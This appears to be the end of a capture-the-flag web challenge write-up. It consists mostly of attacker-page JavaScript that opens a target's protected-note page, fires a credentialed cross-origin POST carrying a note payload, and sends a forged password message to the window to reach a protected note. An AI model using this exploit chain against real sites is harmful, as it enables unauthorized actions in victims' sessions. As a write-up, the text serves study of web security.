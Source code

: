 ```js
window.addEventListener("message", (e) => {
  if (e.data.type === "success") {
    const noteId = e.data.noteId;
    if (win && !win.closed) {
      win.location.href = `${target}/note/${noteId}`;
    }
  }
});

document.addEventListener("DOMContentLoaded", () => {
  document.onclick = () => {
    win = window.open(`${target}/protected-note`);
    if (!win) {
      console.error("Failed to open window. It may have been blocked by the browser.");
      return;
    }
    fetch(`${target}/api/post`, {
      method: 'POST',
      credentials: 'include',
      body: new Blob([JSON.stringify({ title: "exploit", content: [note_payload.trim()], user_password: false })]),
      mode: 'cors'
    });

    setTimeout(() =>{
        win.postMessage({ type: "submitPassword", password: "" }, "*"); 
    }, 1000);
  };
});
```

This is all, thank you for your reading :)
